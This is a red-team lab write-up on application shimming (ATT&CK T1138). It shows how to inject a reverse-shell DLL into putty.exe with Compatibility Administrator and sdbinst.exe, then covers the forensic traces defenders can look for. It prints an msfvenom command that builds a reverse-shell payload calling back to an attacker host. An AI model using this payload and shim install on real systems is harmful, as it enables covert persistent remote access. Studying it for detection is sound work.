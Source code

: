 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1138: Application Shimming

## Execution

In this exercise, [Compatibility Administrator](https://www.microsoft.com/en-us/download/details.aspx?id=7352) will be abused to inject a malicious payload into putty.exe process, which will connect back to our attacking machine.

Generating malicious payload stored as a 32-bit DLL:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil32.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Creating a shim fix for putty.exe - this is the "fix" that will get our malicious DLL injected into putty.exe when it is launched next time:

![](../.gitbook/assets/shim-new-fix.png)

![](../.gitbook/assets/shim-injectdll.png)

![](../.gitbook/assets/shim-cmdline.png)

Installing the shim fixes database we created earlier onto the victim machine using a native windows utility:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
sdbinst.exe C:\experiments\mantvydas.sdb
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching putty.exe on the victim machine, sends us our reverse shell - DLL injection worked:

![](../.gitbook/assets/shim-shell.png)

## Observations

We can see putty.exe has loaded the evil32.dll:

![](../.gitbook/assets/putty-evil32.png)

Note, however, immediately after executing the payload, evil32.dll cannot be observed in the loaded system DLLs:

![](../.gitbook/assets/shim-rundll32.png)

The sdbinst.exe leaves the following behind:

* fix name "mantvydas" \(we set it in the first step of the shim fix creation\) in the "Installed applications" list
* the fix db itself gets copied over to `%WINDIR%\AppPatch\custom OR %WINDIR%\AppPatch\AppPatch64\Custom`
* registry key pointing to the custom fixes db gets added

All of the above can be seen here:

![](../.gitbook/assets/shim-remnants.png)

Note that it is possible to install the shim fixes manually without leaving the trace in the "Installed applications" list, however the fixes db will will still have to be written to the disk and the registry will have to be modified:

![](../.gitbook/assets/shim-sysmon.png)

Correlate it with other events exhibited by the application that has been fixed and you may see something you might want to investigate further:

![](../.gitbook/assets/shim-connection.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1138\",\"type\":\"link\",\"title\":\"Application Shimming - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://blacksunhackers.club/2016/08/post-exploitation-persistence-with-application-shims-intro/\",\"type\":\"link\",\"title\":\"Post Exploitation Persistence With Application Shims \(Intro\) · Blacksun Hackers Club\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blacksunhackers.club/public/apple-touch-icon-precomposed.png\",\"width\":144,\"height\":144,\"aspectRatio\":1}}" %}

